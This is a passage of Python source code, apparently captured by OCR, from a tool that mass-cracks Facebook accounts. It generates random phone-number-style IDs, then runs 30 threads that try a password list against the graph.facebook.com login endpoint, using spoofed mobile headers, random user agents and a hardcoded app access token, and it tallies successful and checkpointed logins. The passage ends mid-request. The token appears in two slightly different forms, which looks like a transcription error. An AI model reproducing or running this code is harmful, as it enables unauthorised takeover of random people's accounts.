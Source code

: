         targets = [prefix + ''.join(random.choices(digits, k=9)) for _ in range(limit)]
        passlist = generate_strong_passwords()

        with tred(max_workers=30) as executor:
            clear()
            print(f'  {self.color.W}\x1b[1;96m   ➤ Cracking {self.color.Y}{prefix} ')
            print(f'  {self.color.W}\x1b[1;96m   ➤ Targets: {self.color.G}{len(targets)}')
            linex()

            for target in targets:
                executor.submit(self.breach_target, target, passlist)

        self.display_results()

    def breach_target(self, target, passlist):
        self.loop += 1
        sys.stdout.write(f'\r  {self.color.W}[ALPHA] {self.loop}|{self.color.R}{len(self.oks)}|{self.color.G}{len(self.cps)}{self.color.W}')
        sys.stdout.flush()

        for password in passlist:
            if self.try_breach(target, password):
                return

    def try_breach(self, uid, password):
        try:
            ua = random.choice(self.user_agents)

            headers = {
                'User-Agent': ua,
                'X-FB-Net-HNI': str(random.randint(20000, 40000)),
                'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
                'X-FB-Connection-Type': 'MOBILE.LTE',
                'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123Dior23437a4a32',
                'X-FB-Connection-Quality': 'EXCELLENT',
                'X-FB-Connection-Bandwidth': str(random.randint(20000000, 30000000)),
                'x-fb-session-id': f"nid={''.join(random.choices(ascii_letters, k=8))};pid=Main",
                'x-fb-device-group': '5120',
                'X-FB-HTTP-Engine': 'Liger',
                'X-FB-Client-IP': 'True',
                'X-FB-Server-Cluster': 'True',
                'x-fb-connection-token': str(uuid.uuid4()),
                'Content-Type': 'application/x-www-form-urlencoded',
                'Host': 'graph.facebook.com'
            }

            payload = {
                'adid': str(uuid.uuid4()),
                'format': 'json',
                'device_id': str(uuid.uuid4()),
                'cpl': 'true',
                'family_device_id': str(uuid.uuid4()),
                'credentials_type': 'device_based_login_password',
                'error_detail_type': 'button_with_disabled',
                'source': 'register_api',
                'email': uid,
                'password': password,
                'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                'generate_session_cookies': '1',
                'meta_inf_fbmeta': 'NO_FILE',
                'advertiser_id': str(uuid.uuid4()),
                'currently_logged_in_userid': '0',
                'locale': 'en_PK',
                'client_country_code': 'PK',
                'method': 'auth.login',
                'fb_api_req_friendly_name': 'authenticate',
                'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler',